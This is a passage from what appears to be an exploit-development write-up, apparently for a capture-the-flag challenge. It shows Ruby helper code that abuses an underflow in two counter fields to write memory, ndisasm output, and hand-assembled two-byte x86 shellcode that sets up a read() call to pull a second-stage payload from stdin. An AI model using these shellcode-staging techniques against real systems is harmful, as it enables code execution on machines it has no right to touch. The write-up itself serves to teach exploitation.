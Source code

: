<span class="Comment"># At this point, ecx points to the start of the code. The read() function is 0x11</span>
<span class="Comment"># bytes into the executable, so move 0x11 to cl</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">b111</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># mov cl, 11 (offset to read())</span>

<span class="Comment"># Now that ecx points to the start of read(), jump to it</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">ffe1</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># jmp ecx</span>
</pre>
That code does require some unpacking, pun intended. :)

The <tt>write_value_to</tt> function is another helper function I wrote. You pass in an address as the first argument, and it calculates the underflow value to set that address. Then the second parameter is the field that's set by the increments, and the third is the field that's set by the chunks. That means the second parameter needs to be reasonably small, and the third parameter can be bigger, but should still be less than 65536 (I'm not sure if that's truly the case, but that's the limitation that I had in mind).

<tt>write_value_to</tt> sets the big value first, then either increments or decrements the other value as needed to get it to where it needs to go, so it's mildly efficient in that way.

I had planned to do more with the first value, but I actually ended up realizing that 0x02eb was a very low no-op, and decided to just use that for everything:
<pre>$ echo -ne '\xeb\x02' | ndisasm -b32 -
00000000  EB02              jmp short 0x4
</pre>
In retrospect, I think leaving it at 00 00 would have actually worked as well, since we keep eax as a writable value the whole time:
<pre>$ echo -ne '\x00\x00' | ndisasm -b32 -
00000000  0000              add [eax],al
</pre>
So the <tt>active_jobs</tt> (incremental) field is always just a no-op, which means we're writing code using the <tt>total_bytes_queued</tt> (adding bigger chunks) field. While that field is more flexible, we still can't do full 4-byte values without our exploit taking days. 3-byte chunks migghhhhht work, but that'd require a bunch of traffic. So we're going to endeavour to do everything in 2 bytes or less.

I mentioned earlier that we're setting up a call to this read function:
<pre>__attribute__((naked)) int read(int fd, char *buf, int count) // [...]
</pre>
That function is always at a set address, which we know, and uses stack-based parameters. Here's the code that we end up creating, all broken nicely into 2 bytes (I don't know why I used 90 for a NOP in the second field, then left the 00 00 at the end as an additional NOP.. let's call that tunnel vision):
<pre>; Set up the parameters to read()
59 90   pop ecx / nop ; Since we will have just done 'call eax' to get to this code, the return address is something we can use as a buffer (we're gonna overwrite code by doing this)
56 90   push esi / nop ; Length value = a register that happens to have a higher value in it
51 90   push ecx / nop ; Buffer to read into = the eventually return address (again, we're going to overwrite the code that's there with shellcode)
6a 00   push byte 0 ; Read from stdin
51 90   push ecx / nop ; Since we're about to do jmp into read(), when read() attempts to return this will be the address it uses
